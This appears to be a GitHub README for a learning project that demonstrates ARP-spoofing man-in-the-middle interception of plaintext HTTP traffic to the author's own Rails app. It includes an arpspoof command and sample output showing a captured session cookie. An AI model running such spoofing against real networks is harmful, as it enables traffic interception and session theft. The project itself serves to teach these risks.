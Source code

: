 ## Overview
This project demonstrates a basic Man-In-The-Middle (MITM) attack using ARP spoofing to intercept HTTP traffic in a local network.

## Key Features
- ARP Spoofing with `arpspoof`
- HTTP traffic sniffing using Python
- Target app: Ruby on Rails server for meetings
- HTTPS disabled for demonstration

## Setup
1. Launch the Rails app on a LAN IP (port 3000)
   ** The rails app (roundtable) is on my github :  https://github.com/deniz14k/Roundtable

2. Disable HTTPS: `config.force_ssl = false`
3. Run ARP spoofing:
   ```bash
   sudo arpspoof -i eth0 -t [Victim-IP] [Router-IP]
4. Run Python sniffer script (included in sniffer.py)
5. Simulate traffic using:
   ```bash
    curl http://[Victim-IP]:3000

 Sample output : 
 
 GET /meetings HTTP/1.1
User-Agent: curl/7.81.0
Cookie: session_id=abcd1234

## What I Learned:

Risks of using HTTP in local networks

Low-level network attack mechanics

Building sniffer tools with Python
